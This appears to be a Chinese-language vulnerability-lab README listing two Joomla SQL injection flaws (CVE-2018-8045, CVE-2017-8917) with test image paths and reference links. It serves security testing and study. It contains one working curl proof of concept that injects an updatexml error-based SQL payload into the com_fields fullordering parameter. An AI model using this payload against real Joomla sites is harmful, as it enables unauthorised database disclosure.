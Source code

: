 ## CVE-2018-8045 - 后台 `filter[category_id]` SQL 注入漏洞

测试镜像

* src/joomla/3.8.3/

参考链接

* [【漏洞分析】Joomla内核SQL注入漏洞（CVE-2018-8045）分析](http://blog.nsfocus.net/cve-2018-804-analysis/)

## CVE-2017-8917 - com_fields fullordering 注入

测试镜像

* src/joomla/3.7.0/

参考链接

* [Joomla! 3.7 Core SQL Injection (CVE-2017-8917)](https://www.seebug.org/vuldb/ssvid-93113)

Poc

```
curl -g '127.0.0.1/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(2,concat(0x7e,(version())),0)' | grep XPATH
```

